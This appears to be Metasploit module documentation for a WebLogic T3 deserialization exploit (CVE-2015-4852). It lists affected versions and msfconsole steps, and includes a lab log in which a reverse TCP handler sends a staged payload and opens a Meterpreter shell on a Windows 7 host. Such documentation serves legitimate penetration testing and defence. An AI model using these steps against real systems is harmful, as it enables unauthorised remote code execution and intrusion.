 ## Description
 Oracle Weblogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerability (CVE 2015-4852), which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.

## Vulnerable Application
 Oracle Weblogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0.

## Verification Steps
 1. `./msfconsole -q`
 2. `use exploit/multi/misc/weblogic_deserialize_rawobject`
 3. `set rhosts <rhost>`
 4. `set rport <srvport>`
 5. `exploit`

## Scenarios
### Tested on Windows 7 x64 running Oracle Weblogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
 ```
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rhost 192.168.192.6
 rhost => 192.168.192.6
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rport 7001
 rport => 7001
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > exploit

 [*] Started reverse TCP handler on 192.168.192.136:4444 
 [*] 192.168.192.6:7001 - Sending handshake...
 [*] 192.168.192.6:7001 - Sending T3 request object...
 [*] 192.168.192.6:7001 - Sending client object payload...
 [*] Sending stage (179779 bytes) to 192.168.192.6
 [*] Meterpreter session 7 opened (192.168.192.136:4444 -> 192.168.192.6:49266) at 2018-12-14 11:40:29 -0800
 
 meterpreter > sysinfo
 Computer        : GIOTTO-HS-W7
 OS              : Windows 7 (Build 7600).
 Architecture    : x64
 System Language : en_US
 Domain          : WORKGROUP
 Logged On Users : 2
 Meterpreter     : x86/windows
 ```
